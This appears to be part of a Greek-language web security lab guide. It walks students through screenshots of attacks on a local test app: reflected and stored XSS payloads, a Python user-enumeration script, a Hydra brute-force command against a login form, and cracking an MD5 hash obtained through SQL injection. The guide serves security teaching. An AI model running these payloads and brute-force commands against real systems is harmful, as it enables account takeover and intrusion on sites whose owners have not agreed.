 ### Screenshot 4-5: XSS Demonstration

**Reflected XSS**:
```javascript
// Payloads να δοκιμάσετε:
<script>alert('XSS by [YOUR_NAME]')</script>
<img src=x onerror="alert('XSS Vulnerability')">
<svg onload="alert(document.domain)">
```

**Stored XSS Setup**:
```
1. Login ως testuser
2. Πηγαίνετε σε product detail
3. Submit review:
   Title: Great Product!
   Content: <script>alert('Stored XSS - Review System')</script>
   Rating: 5
4. Logout και login ως άλλος χρήστης
5. Visit το ίδιο product
6. Screenshot του alert
```

### Screenshot 6-7: Authentication Attacks

**User Enumeration**:
```python
# Script για demonstration
import requests

users = ['admin', 'testuser', 'nonexistent', 'victim1']
for user in users:
    r = requests.post('http://localhost:8000/login/', 
                      data={'username': user, 'password': 'wrong'})
    print(f"{user}: {r.text[r.text.find('Error'):r.text.find('Error')+100]}")
```

**Hydra Brute Force**:
```bash
# Δημιουργήστε αρχείο users.txt
echo "admin\ntestuser\nvictim1" > users.txt

# Δημιουργήστε αρχείο passwords.txt  
echo "password123\nadmin123\ntest123\npassword" > passwords.txt

# Run Hydra
hydra -L users.txt -P passwords.txt localhost http-post-form \
      "/login/:username=^USER^&password=^PASS^:Invalid"
```

### Screenshot 8: Password Cracking

**Online Method**:
```
1. Από SQL injection πάρτε hash: md5$salt$5f4dcc3b5aa765d61d8327deb882cf99
2. Visit https://crackstation.net/
3. Paste hash
4. Screenshot του αποτελέσματος
```

